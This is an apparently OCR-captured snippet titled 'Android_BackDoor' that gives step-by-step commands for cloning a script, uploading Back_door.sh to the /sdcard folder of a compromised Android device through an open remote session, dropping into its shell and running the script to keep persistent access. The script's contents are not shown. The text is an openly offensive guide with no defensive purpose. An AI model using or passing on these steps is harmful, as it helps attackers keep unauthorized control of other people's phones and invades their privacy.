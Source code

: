 #Author : Utkarsh Singh

#Copyright (C) 2020

#Android_BackDoor

git clone <pasteurl>
chmod +x Back_door.sh

#After that you need to get into root directory of android device by typing “cd /” in terminal.

#Now you need to get into /sdcard location by typing “cd /sdcard” in same terminal.

#Here you can upload your backdoored script by typing “upload Back_door.sh” in same terminal.

#Now all we have to do is execute the script once, and then everything will be done automatically, type “shell” to enter into system’s shell mode of android device.

#Here you need to again go into same location i.e. cd /root/sdcard and execute the backdoor using “sh Back_door.sh“.

#your script has been executed successfully, you can terminate the execution by pressing CTRL + C and then type Y.

done!
